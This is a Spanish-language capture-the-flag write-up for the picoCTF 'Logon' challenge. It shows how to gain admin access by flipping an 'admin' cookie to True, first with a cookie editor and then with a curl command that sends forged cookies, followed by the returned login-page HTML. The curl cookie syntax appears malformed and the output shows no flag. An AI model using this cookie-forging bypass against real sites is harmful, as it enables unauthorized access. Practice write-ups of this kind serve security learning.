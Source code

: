 Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/`([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796


Hints:
1.⁠ Hmm, parece que no comprueba la contraseña de nadie, ¿excepto la de Joe?

Solución 1

Con cookies editor

Name
admin
Value
True

Cambiar el valor que estaba en falso a verdadero para que la bandera pueda ser destapada









Solucion 2
con terminal


Sepulveda24-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/ -H "Cookie: username-uli; password-123; admin-True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>


</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>
        
        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
        
      
      <div class="jumbotron">
        <p class="lead"></p>
        <div class="login-form">
            <form role="form" action="/login" method="post">
                <div class="form-group">
                    <input type="text" name="user" id="email" class="form-control input-lg" placeholder="Username">
                </div>
                <div class="form-group">
                    <input type="password" name="password" id="password" class="form-control input-lg" placeholder="Password">
                </div>
            </div>
            <div class="row">
                <div class="col-xs-12 col-sm-12 col-md-12">
                    <input type="submit" class="btn btn-lg btn-success btn-block" value="Sign In">
                </div>
            </div>
        </form>
    </div>
    <footer class="footer">
        <p>&copy; PicoCTF 2019</p>
    </footer>

</div>

<script>
$(document).ready(function(){
    $(".close").click(function(){
        $("myAlert").alert("close");
    });
});
</script>
</body>



Notas adicionales

-------------

Referencias

https://play.picoctf.org/practice/challenge/46
https://www.youtube.com/watch?v=P2njyHWhu1U&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=3 